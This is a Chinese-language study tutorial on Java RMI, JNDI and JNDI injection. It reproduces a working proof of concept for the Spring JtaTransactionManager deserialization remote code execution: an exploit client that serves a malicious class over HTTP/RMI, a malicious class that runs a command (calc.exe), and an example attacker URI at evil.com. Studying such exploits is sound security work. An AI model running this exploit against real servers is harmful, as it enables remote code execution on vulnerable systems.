前言
本文是一个学习Java反序列化漏洞的一个入门文章，总结学习Java RMI调用以及一个Spring JNDI注入与反序列化漏洞原理
Java RMI的定义
Java远程方法调用，即Java RMI (Java Remote Method Invocation)，是Java编程语言里，一种用于实现远程过程调用的应用程序编程接口。它使客户机上运行的程序可以直接调用远程服务器上的对象。远程方法调用特性使Java编程人员能够在网络环境中分布操作。
RMI（Remote Method Invocation）为远程方法调用，是允许运行在一个Java虚拟机的对象调用运行在另一个Java虚拟机上的对象的方法。这两个虚拟机可以是运行在相同计算机上的不同进程中，也可以是运行在网络上的不同计算机中。
在RMI中对象是通过序列化方式进行编码传输的。（基于序列化和反序列化就可能存在反序列化漏洞了）
RMI的基础是接口，RMI构架基于一个重要的原理：定义接口和定义接口的具体实现是分开的。
原理
RMI能让一个Java程序去调用网络中另一台计算机的Java对象的方法，那么调用的效果就像是在本机上调用一样。通俗的讲：A机器上面有一个class，通过远程调用，B机器调用这个class 中的方法。
RMI包含部分：
- 远程服务的接口定义
- 远程服务接口的具体实现
- 存根（Stub）和骨架（Skeleton）文件
- 一个运行远程服务的服务器
- 一个RMI命名服务，它允许客户端去发现这个远程服务
- 类文件的提供者（一个HTTP或者FTP服务器）
- 一个需要这个远程服务的客户端程序
Java RMI示例
远程方法调用
远程方法调用是分布式编程中的一个基本思想。而RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。这个协议就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。在RMI中对象是通过序列化方式进行编码传输的。远程对象
- 首先我们定义一个远程接口
Clock.java- 定义远程服务接口（interface）
- 远程接口必须继承Remote
- 远程方法必须抛出RemoteException
在Java中，只要一个类extends了java.rmi.Remote接口，即可成为存在于服务器端的远程对象， 供客户端访问并提供一定的服务。JavaDoc描述：Remote 接口用于标识其方法可以从非本地虚拟机上调用的接口。任何远程对象都必须直接或间接实现此接口。只有在“远程接口” 扩展 java.rmi.Remote 的接口）中指定的这些方法才可被远程调用

2. 接下来定义远程接口的实现ClockImpl.java

- 远程对象必须实现java.rmi.server.UniCastRemoteObject类，这样才能保证客户端访问获得远程对象时，
- 该远程对象将会把自身的一个拷贝以Socket的形式传输给客户端，此时客户端所获得的这个拷贝称为”stub”(存根)，
- 而服务器端本身已存在的远程对象则称之为”Skeleton”(骨架)。其实此时的存根是客户端的一个代理，用于与服务器端的通信，
- 而骨架也可认为是服务器端的一个代理，用于接收客户端的请求之后调用远程方法来响应客户端的请求。
客户端
- 根据主机和端口，获得服务注册器的引用
- 注册器根据服务名称查找对应的服务，并返回给客户端（Stub—-客户端代理）
- 客户对象通过Stub发送请求
- Stub将调用信息（变量、方法名称等）打包，通过网络将它发送给Skeleton（服务辅助对象）
- Skeleton将来自Stub的信息解包，找出被调用的方法（以及在哪个对象内），然后调用真正的服务对象上的真正方法
- 服务对象执行方法，获得返回结果，并将结果返回给Skeleton
- Skeleton将返回结果打包，通过网络返回给Stub（注意返回结果必须是可序列化的）
- Stub接受到数据后解包，返回给客户对象。
- 客户端所在的JVM启动后，可以多次调用服务端对象的方法。
stub和skeleton代理都是在服务端程序中由RMI系统动态生成,服务端程序只需要继承java.rmi.server.UnicastRemoteObject类即可
如何获取Stub
- 调用某个远程服务上的方法，向远程服务获取存根
JDK提供了一个RMI注册表（RMIRegistry），RMIRegistry也是一个远程对象，默认监听在1099端口上，可以使用代码启动RMIRegistry，也可以使用rmiregistry命令。
- 要注册远程对象，需要RMI URL和一个远程对象的引用。
LocateRegistry.getRegistry()会使用给定的主机和端口等信息本地创建一个Stub对象作为Registry远程对象的代理，从而启动整个远程调用逻辑。服务端应用程序可以向RMI注册表中注册远程对象，然后客户端向RMI注册表查询某个远程对象名称，来获取该远程对象的Stub。从客户端角度来看服务端，服务端开启了两个端口，一个是RMI注册端口默认为1099，另一个是远程对象通信端口，由JVM随机分配，1
2
3
4
5//创建Clock实例
Clock impl = new ClockImpl();
LocateRegistry.createRegistry(1099);
Registry registry = LocateRegistry.getRegistry();
registry.bind("Clock",stub);- 客户端代码
ClockClient.java

服务端
Clock是暴露在网络中的接口，ClockImpl是一个服务端远程对象，重写了一个Hello方法供远程调用。它没有继承UnicastRemoteObject类，我们可以在构造方法中调用UnicastRemoteObject.exportObject()例如：
1 | public ClockImpl() throws RemoteException{ |
也可以稍后在服务端代码中调用
- 服务端代码
ClockServer.java
注册远程对象,向客户端提供远程对象服务远程对象是在远程服务上创建的，你无法确切地知道远程服务器上的对象的名称。但是，将远程对象注册到RMI Service之后，客户端就可以通过RMI Service请求到该远程服务对象的stub了，利用stub代理就可以访问远程服务对象了
- 服务端的流程是：
- 定义远程服务接口（interface）
- 定义远程服务接口的具体实现（implement）
- 将该远程服务注册到RMI命名服务上（指定主机及端口）（registry）
- 启动远程服务所在的jvm线程，此时服务端处于运行中。
运行实例
- 先运行服务端
 - 运行客户端，调用成功

总结一下RMI 流程
- 服务端ClockImpl()继承Clock()创建远程对象
- 服务端CLock()注册远程对象
- 客户端访问服务器b并查找相应远程对象
- 服务端将stub(存根返回)客户端
- 客户端调用stub(存根)的方法
- stub(存根)作为代理与服务端骨架通信 //骨架作为服务端代理
- 骨架代理调用ClockImpl相应方法
- 骨架将结果返回给客户端的存根
- 存根返回给客户端

动态加载类
RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。
- JNDI注入的利用方法中也借助了动态加载类的思路。
- 这里涉及到的角色：客户端、RMI注册表、远程对象服务器、托管class文件的Web服务器可以分别位于不同的主机上：

JNDI
JNDI (Java Naming and Directory Interface) 是一组应用程序接口，它为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用JNDI在局域网上定位一台打印机，也可以用JNDI来定位数据库服务或一个远程Java对象。JNDI底层支持RMI远程对象，RMI注册的服务可以通过JNDI接口来访问和调用。 - 其实JNDI就如同Windows系统的注册表一样:
键:值
JNDI：
路径+名称:对象名称
JNDI支持多种命名和目录提供程序（Naming and Directory Providers），RMI注册表服务提供程序（RMI Registry Service Provider）允许通过JNDI应用接口对RMI中注册的远程对象进行访问操作。将RMI服务绑定到JNDI的一个好处是更加透明、统一和松散耦合，RMI客户端直接通过URL来定位一个远程对象，而且该RMI服务可以和包含人员，组织和网络资源等信息的企业目录链接在一起。 - JNDI接口在初始化时，可以将RMI URL作为参数传入，而JNDI注入就出现在客户端的lookup()函数中，如果
lookup()的参数可控就可能被攻击。JNDI注入
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object factory，最终通过factory类将reference转换为具体的对象实例。 - 利用流程
- 目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控；
- 攻击者控制URI参数为恶意的RMI服务地址，如：rmi://evil.com//name；
- 攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类；
- 目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例；
- 攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果.
攻击目标扮演的相当于是JNDI客户端的角色，攻击者通过搭建一个恶意的RMI服务端来实施攻击。
Spring JNDI注入与反序列化
Spring框架的spring-tx.jar中的JtaTransactionManager.readObject()中就存在这个问题，当进行对象反序列化的时候，会执行lookup()操作，其中lookup()参数可控导致了RCE。
环境搭建
环境使用的是Github上zerothoughts提供的POC，主要功能就是一个简单的Client、Server端，运行在Spring环境下。
- 其中Server端开启一个Socket连接，读取Client发送的序列化数据，然后反序列化得到对象
- Client负责发送序列化数据以及实现一个JNDI注入来加载恶意类
漏洞分析
Spring框架的spring-tx.jar中的JtaTransactionManager.readObject()中，当进行对象反序列化的时候，会执行lookup()操作而且参数可控，可以进行JNDI注入。客户端
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47import java.io.*;
import java.net.*;
import java.rmi.registry.*;
import com.sun.net.httpserver.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
public class ExploitClient {
public static void main(String[] args) {
try {
String serverAddress = args[0];
int port = Integer.parseInt(args[1]);
String localAddress= args[2];
//启动web server，提供远程下载要调用类的接口
System.out.println("Starting HTTP server");
HttpServer httpServer = HttpServer.create(new InetSocketAddress(8088), 0);
httpServer.createContext("/",new HttpFileHandler());
httpServer.setExecutor(null);
httpServer.start();
//下载恶意类的地址 http://127.0.0.1:8088/ExportObject.class
System.out.println("Creating RMI Registry");
Registry registry = LocateRegistry.createRegistry(1099);
Reference reference = new javax.naming.Reference("ExportObject","ExportObject","http://127.0.0.1:8088/");
ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
registry.bind("Object", referenceWrapper);
System.out.println("Connecting to server "+serverAddress+":"+port);
Socket socket=new Socket(serverAddress,port);
System.out.println("Connected to server");
//jndi的调用地址
String jndiAddress = "rmi://"+localAddress+":1099/Object";
org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
object.setUserTransactionName(jndiAddress);
//发送payload
System.out.println("Sending object to server...");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(socket.getOutputStream());
objectOutputStream.writeObject(object);
objectOutputStream.flush();
while(true) {
Thread.sleep(1000);
}
} catch(Exception e) {
e.printStackTrace();
}
}
} - 可以看到客户端首先启动一个HTTP服务来提供JNDI将要远程加载的恶意类
- 接下来注册并启动RMI服务，然后通过
References类 绑定 我们HTTP服务提供的恶意类 - 最后就是RMI的调用过程了
服务端
1 | import java.io.*; |
- 服务端的代码很简单，就是一个读取序列化数据再进行反序列化的过程
服务端收到客户端的payload，然后去访问客户端RMI服务，客户端RMI服务访问HTTP服务提供的恶意类，读取恶意类然后返回给Server，Server端接收序列化数据进行反序列化然后触发我们构造的恶意代码造成RCE
本地复现
我们首先启动服务端，再启动客户端，





以上就是调用栈了
- 恶意类利用 JtaTransactionManager 类中可以被控制的 readObject() 方法，从而构造恶意的被序列化类，其中利用 readObject() 会触发远程恶意类中的构造函数这一点，达到目的。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.InputStreamReader;
public class ExportObject {
public static String exec(String cmd) throws Exception {
String sb = "";
BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
String lineStr;
while ((lineStr = inBr.readLine()) != null)
sb += lineStr + "\n";
inBr.close();
in.close();
return sb;
}
public ExportObject() throws Exception {
String cmd="calc.exe";
throw new Exception(exec(cmd));
}
}
最后贴上结果：
